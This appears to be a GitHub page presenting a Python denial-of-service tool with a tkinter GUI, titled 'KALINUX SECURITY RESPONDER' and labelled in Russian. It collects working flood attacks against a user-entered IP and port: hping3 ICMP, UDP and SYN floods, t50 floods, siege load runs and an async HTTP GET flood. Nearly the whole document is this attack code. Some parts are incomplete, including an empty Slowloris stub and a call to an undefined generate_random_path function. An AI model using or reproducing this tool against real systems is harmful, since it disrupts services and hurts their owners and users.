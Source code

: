 # It is prototype and it is not proper tested yet, and probably not safe. Use on your own risk.
## It is the same code, but providing a gui interface.
    #!/usr/bin/python3
    import os
    import subprocess
    import socket
    import random
    import asyncio
    import aiohttp
    import time
    import logging
    import tkinter as tk
    from tkinter import font, messagebox
    from concurrent.futures import ThreadPoolExecutor, as_completed
    from colorama import Fore, Style, init
    
    init(autoreset=True)
    logging.basicConfig(filename='attack_log.txt', level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
    
    os.system("clear")
    os.system("figlet KALINUX SECURITY RESPONDER")
    
    class AttackManager:
        def __init__(self, target_ip, target_port=80, num_requests=1000, max_threads=4, attack_duration=30):
            self.target_ip = target_ip
            self.target_port = target_port
            self.num_requests = num_requests
            self.max_threads = max_threads
            self.attack_duration = attack_duration
            self.protocol_methods = {
                "UDP": self.udp_flood,
                "TCP": self.tcp_syn_flood,
                "HTTP": self.run_http_attack,
                "T50": self.t50_attack,
                "Siege": self.siege_attack,
                "Hping3": self.hping3_attack,
                "Slowloris": self.slowloris_attack,
                "ICMP": self.icmp_flood
            }
    
        def icmp_flood(self):
            command = f"sudo hping3 {self.target_ip} --icmp --flood"
            self.run_command(command, "ICMP Flood")
    
        def udp_flood(self):
            command = f"sudo hping3 {self.target_ip} --udp --flood -p {self.target_port}"
            self.run_command(command, "UDP Flood")
    
        def tcp_syn_flood(self):
            command = f"sudo hping3 {self.target_ip} -S -p {self.target_port} --flood"
            self.run_command(command, "TCP SYN Flood")
    
        async def http_flood(self, session, url):
            headers = {"User-Agent": "Mozilla/5.0", "Connection": "keep-alive"}
            try:
                async with session.get(url, headers=headers) as response:
                    logging.info(f"Sent GET request to {url}, Status: {response.status}")
            except Exception as e:
                logging.error(f"Error in HTTP request: {e}")
    
        async def run_http_attack(self):
            url = f"http://{self.target_ip}:{self.target_port}/{self.generate_random_path()}"
            async with aiohttp.ClientSession() as session:
                tasks = [self.http_flood(session, url) for _ in range(self.num_requests)]
                await asyncio.gather(*tasks)
    
        def slowloris_attack(self):
            # Реализация атаки Slowloris
            pass
    
        def hping3_attack(self):
            commands = [
               f"sudo hping3 -A {self.target_ip} -p {self.target_port} --flood",
               f"sudo hping3 -S {self.target_ip} -p {self.target_port} --flood -d 1000",
               f"sudo hping3 -2 {self.target_ip} -p {self.target_port} -s 1024-65535 --flood",
               f"sudo hping3 -2 {self.target_ip} -p {self.target_port} --flood --interval u1000"
               ]
            for command in commands:
               self.run_command(command, "Hping3 attack")
    
        def t50_attack(self):
            commands = [
                f"sudo t50 {self.target_ip} --protocol TCP --flood --dport {self.target_port}",
                f"sudo t50 {self.target_ip} --protocol ICMP --flood",
                f"sudo t50 {self.target_ip} --protocol UDP --flood --dport {self.target_port}"
                ]
            for command in commands:
                self.run_command(command, "T50 attack")
    
        def siege_attack(self):
            commands = [
                f"siege -t 1m http://{self.target_ip}",
                f"siege -c 100 -t 1m http://{self.target_ip}"
                ]
            for command in commands:
                self.run_command(command, "Siege attack")
    
        def run_command(self, command, description):
            try:
               subprocess.run(command, shell=True, timeout=self.attack_duration)
               logging.info(f"{description} completed.")
            except subprocess.TimeoutExpired:
               logging.warning(f"{description} timed out.")
            except Exception as e:
               logging.error(f"Error during {description}: {e}")
    
        def execute_attack(self, protocol):
            if protocol == "HTTP":
                asyncio.run(self.run_http_attack())
            elif protocol in self.protocol_methods:
                self.protocol_methods[protocol]()
            else:
                logging.error(f"Invalid protocol: {protocol}")
    
    class AttackApp:
        def __init__(self, root):
            self.root = root
            self.root.title("KALINUX SECURITY RESPONDER")
            self.root.geometry("800x600")
    
            # Настройка шрифтов
            self.default_font = font.Font(family="Helvetica", size=12)
            self.label_font = font.Font(family="Helvetica", size=14, weight="bold")
    
            # GUI компоненты
            self.title_label = tk.Label(root, text="KALINUX SECURITY RESPONDER", font=("Helvetica", 18, "bold"))
            self.title_label.pack(pady=20)
            
            self.ip_label = tk.Label(root, text="Введите IP-адрес цели:", font=self.label_font)
            self.ip_label.pack(pady=10)
            self.ip_entry = tk.Entry(root, font=self.default_font)
            self.ip_entry.pack(pady=5)
    
            self.port_label = tk.Label(root, text="Введите порт (по умолчанию 80):", font=self.label_font)
            self.port_label.pack(pady=10)
            self.port_entry = tk.Entry(root, font=self.default_font)
            self.port_entry.pack(pady=5)
    
            self.protocol_label = tk.Label(root, text="Выберите протокол атаки (например, UDP, TCP, HTTP):", font=self.label_font)
            self.protocol_label.pack(pady=10)
            self.protocol_entry = tk.Entry(root, font=self.default_font)
            self.protocol_entry.pack(pady=5)
    
            self.start_button = tk.Button(root, text="Начать атаку", font=self.default_font, command=self.start_attack)
            self.start_button.pack(pady=20)
            
            self.status_label = tk.Label(root, text="", font=self.default_font)
            self.status_label.pack(pady=10)
    
        def start_attack(self):
            target_ip = self.ip_entry.get()
            target_port = self.port_entry.get() or "80"  # Используем порт 80 по умолчанию
            protocol = self.protocol_entry.get()
    
            if not target_ip:
                messagebox.showerror("Ошибка", "Введите IP-адрес цели")
                return
            if not target_port.isdigit():
                messagebox.showerror("Ошибка", "Порт должен быть числом")
                return
            if not protocol:
                messagebox.showerror("Ошибка", "Выберите протокол атаки")
                return
    
            manager = AttackManager(target_ip, int(target_port))
            self.status_label.config(text=f"Запуск атаки {protocol} на {target_ip}:{target_port}...")
            manager.execute_attack(protocol)
            self.status_label.config(text=f"Атака {protocol} завершена")
    

    root = tk.Tk()
    app = AttackApp(root)
    root.mainloop()
